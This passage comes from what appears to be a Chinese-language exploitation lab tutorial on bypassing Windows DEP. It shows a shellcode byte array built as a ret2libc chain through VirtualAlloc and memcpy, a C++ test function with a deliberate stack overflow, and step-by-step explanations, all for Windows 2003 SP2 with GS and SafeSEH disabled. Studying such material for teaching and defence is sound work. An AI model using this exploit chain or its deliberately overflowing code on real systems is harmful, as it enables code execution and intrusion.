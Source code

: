 ```c++
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x0B\x1A\xBF\x7C"
    "\xBA\xD9\xBB\x7C"
    "\x5F\x78\xA6\x7C"
    "\x00\x00\x03\x00"
    "\x00\x00\x03\x00"
    "\xBF\x7D\xC9\x77"
    "\xFF\x00\x00\x00"
    "\xAC\xAF\x94\x7C"//address of  in ntdll.memcpy 
    "\x00\x00\x03\x00"
    "\x00\x00\x03\x00"
    "\x00\x90\x90\x94"
    "\xFC\x68\x6A\x0A"
    "\x38\x1E\x68\x63"
    "\x89\xD1\x4F\x68"
    "\x32\x74\x91\x0C"
    "\x53\xFF\x57\xFC"
    "\x53\xFF\x57\xF8"
    ;

void test()
{
 char tt[176];
 memcpy(tt,shellcode,450);
}
int main()
{
 HINSTANCE hInst = LoadLibrary("shell32.dll");
 char temp[200];
 test();
 return 0;
} 
```

对实验思路和代码简要解释如下。
- （1）为了更直观地反映绕过 DEP 的过程，我们在本次实验中不启用 GS 和 SafeSEH。
- （2）函数 test 存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖函数返回地址。
- （3）覆盖掉函数返回地址后，通过 Ret2Libc 技术，利用 VirtualAlloc 函数申请一段具有执行权限的内存。
- （4）通过 memcpy 函数将 shellcode 复制到 VirtualAlloc 函数申请的可执行内存空间中。
- （5）最后在这段可执行的内存空间中执行 shellcode，实现 DEP 的绕过。


实验环境如下表所示。
- 操作系统 Windows 2003 SP2 
- DEP 状态 Optout
- 编译器 VC++ 6.0 编译选项 禁用优化选项
- build 版本 release 版本
